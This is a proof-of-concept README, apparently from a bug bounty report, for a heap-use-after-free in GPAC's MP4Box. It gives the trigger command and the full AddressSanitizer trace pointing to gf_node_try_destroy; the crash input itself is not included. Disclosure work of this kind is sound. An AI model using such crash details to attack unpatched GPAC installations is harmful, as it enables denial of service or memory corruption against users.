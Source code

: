 # Proof of Concept (PoC) README

## POC URL
https://huntr.com/bounties/9c312763-41a6-4fc7-827b-269eb86efcbc

## Run Command
MP4Box -bt POC1

## Expected Output
ASAN
==74043==ERROR: AddressSanitizer: heap-use-after-free on address 0x604000003fd0 at pc 0x7f0c5374e845 bp 0x7ffcfc56f2b0 sp 0x7ffcfc56f2a8
READ of size 8 at 0x604000003fd0 thread T0
    #0 0x7f0c5374e844 in gf_node_try_destroy /home/wjh/gpac/src/scenegraph/base_scenegraph.c:668:24
    #1 0x7f0c537623c1 in gf_sg_command_del /home/wjh/gpac/src/scenegraph/commands.c:120:3
    #2 0x7f0c53f10d1c in gf_sm_au_del /home/wjh/gpac/src/scene_manager/scene_manager.c:113:4
    #3 0x7f0c53f0dcd8 in gf_sm_reset_stream /home/wjh/gpac/src/scene_manager/scene_manager.c:126:3
    #4 0x7f0c53f0dcd8 in gf_sm_delete_stream /home/wjh/gpac/src/scene_manager/scene_manager.c:133:2
    #5 0x7f0c53f0dcd8 in gf_sm_del /home/wjh/gpac/src/scene_manager/scene_manager.c:147:3
    #6 0x505572 in dump_isom_scene /home/wjh/gpac/applications/mp4box/filedump.c:220:2
    #7 0x4f3e66 in mp4box_main /home/wjh/gpac/applications/mp4box/mp4box.c:6227:7
    #8 0x7f0c52e34082 in __libc_start_main /build/glibc-SzIz7B/glibc-2.31/csu/../csu/libc-start.c:308:16
    #9 0x42ac0d in _start (/home/wjh/gpac/bin/gcc/MP4Box+0x42ac0d)

0x604000003fd0 is located 0 bytes inside of 48-byte region [0x604000003fd0,0x604000004000)
freed by thread T0 here:
    #0 0x4a49fd in free (/home/wjh/gpac/bin/gcc/MP4Box+0x4a49fd)
    #1 0x7f0c5374a1cf in gf_node_unregister /home/wjh/gpac/src/scenegraph/base_scenegraph.c:763:3
    #2 0x7f0c5374e7dc in gf_node_try_destroy /home/wjh/gpac/src/scenegraph/base_scenegraph.c:669:9
    #3 0x7f0c53f10d1c in gf_sm_au_del /home/wjh/gpac/src/scene_manager/scene_manager.c:113:4
    #4 0x7f0c53f0dcd8 in gf_sm_reset_stream /home/wjh/gpac/src/scene_manager/scene_manager.c:126:3
    #5 0x7f0c53f0dcd8 in gf_sm_delete_stream /home/wjh/gpac/src/scene_manager/scene_manager.c:133:2
    #6 0x7f0c53f0dcd8 in gf_sm_del /home/wjh/gpac/src/scene_manager/scene_manager.c:147:3

previously allocated by thread T0 here:
    #0 0x4a4c7d in malloc (/home/wjh/gpac/bin/gcc/MP4Box+0x4a4c7d)
    #1 0x7f0c5377e2db in Group_Create /home/wjh/gpac/src/scenegraph/mpeg4_nodes.c:7579:2
    #2 0x7f0c5377e2db in gf_sg_mpeg4_node_new /home/wjh/gpac/src/scenegraph/mpeg4_nodes.c:36809:10

SUMMARY: AddressSanitizer: heap-use-after-free /home/wjh/gpac/src/scenegraph/base_scenegraph.c:668:24 in gf_node_try_destroy
Shadow bytes around the buggy address:
  0x0c087fff87a0: fa fa fd fd fd fd fd fd fa fa fd fd fd fd fd fd
  0x0c087fff87b0: fa fa fd fd fd fd fd fd fa fa fd fd fd fd fd fd
  0x0c087fff87c0: fa fa fd fd fd fd fd fd fa fa fd fd fd fd fd fd
  0x0c087fff87d0: fa fa fd fd fd fd fd fd fa fa fd fd fd fd fd fd
  0x0c087fff87e0: fa fa fd fd fd fd fd fd fa fa fd fd fd fd fd fd
=>0x0c087fff87f0: fa fa 00 00 00 00 02 fa fa fa[fd]fd fd fd fd fd
  0x0c087fff8800: fa fa fd fd fd fd fd fd fa fa fd fd fd fd fd fa
  0x0c087fff8810: fa fa fd fd fd fd fd fd fa fa fd fd fd fd fd fa
  0x0c087fff8820: fa fa fd fd fd fd fd fa fa fa fd fd fd fd fd fa
  0x0c087fff8830: fa fa fd fd fd fd fd fa fa fa fd fd fd fd fd fa
  0x0c087fff8840: fa fa fd fd fd fd fd fa fa fa fd fd fd fd fd fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
  Shadow gap:              cc
==74043==ABORTING